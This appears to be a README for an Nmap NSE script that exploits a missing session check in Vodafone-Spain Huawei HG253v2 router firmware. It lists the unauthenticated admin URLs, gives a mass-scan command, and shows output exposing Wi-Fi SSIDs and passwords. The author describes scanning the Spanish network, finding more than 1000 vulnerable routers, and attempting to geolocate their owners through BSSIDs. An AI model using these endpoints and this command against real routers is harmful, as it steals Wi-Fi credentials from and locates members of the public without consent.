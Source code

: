 # http-enum-vodafone-hua253s.nse

### Introduction

Vodafone-Spain is starting to rent a new Huawei HG253v2 router to the spanish costumers. This new router is coming with a new firmware version.

### The pre-scholar bug

![Logo](img/prescholar.gif)

I found a new simple security bug in that new firmware version. It is so easy to see it that I named it "the Pre-scholar bug". Basically, it is not validating the session cookie in some administration webpages:

 - http://\<IP\>/html_253s/api/ntwk/WlanBasic
 - http://\<IP\>/html_253s/api/system/diagnose_internet
 - http://\<IP\>/html_253s/api/system/hostinfo?type=ethhost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=guesthost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=homehost
 - http://\<IP\>/html_253s/api/system/hostinfo?type=wifihost
 - http://\<IP\>/html_253s/api/system/wizardcfg

So, It is possible to get direct information from those urls in any router open to internet.

### About the NSE script

This is a Nmap NSE script to search Vodafone-Spain Huawei 253s_v2 router with the port 80/tcp and/or 443/tcp open to Internet (via this new bug).

The script will try to get the SSID, BSSID, key-type and Password of the wifi network interface.

It was tested with:

  - HW: AV1HG253SBZDM
  - Firmware: V100R001C205B038SP0x (being x a number)

Command line and result:

```
nmap -sS -p80,443 -script http-enum-vodafone-hua253s.nse x.x.x.*

Nmap scan report for xxxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.091s latency).
PORT    STATE SERVICE
80/tcp  open  http
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX
443/tcp open  https
|_http-enum-vodafone-hua253s:   SSID: vodafone851X (c4:07:2f:89:xx:xx)   Pass(AES): FSLJLMZFC3W9XX

Nmap scan report for xxxxxxx.dyn.user.ono.com (x.x.x.x)
Host is up (0.089s latency).
PORT    STATE    SERVICE
80/tcp  filtered http
443/tcp filtered https

```

### Scope

I have checked the Spanish Vodafone network trying to guess what the real scope is and I found >1000 routers with the "correct" brand, open port to internet and the bug working.

### Experiments

After speaking to a friend of mine, I was trying to geolocate this routers using Google geolocate API and the found BSSID. But it was not possible. The spanish BSSID (MAC address) database by google seems very poor. All my tries got a "Not found" answer :,(

Using other IP location services was worse. They are completely inaccurate.

I tried with https://wigle.net/ and it is working but its API is very limited. I wrote to the wigle's owner but he wanted bread... so, you only can shoot to five or six bssid per day in that webpage :(

### Notes

 - Sorry for my ugly English.
 - Oldschool is alive.
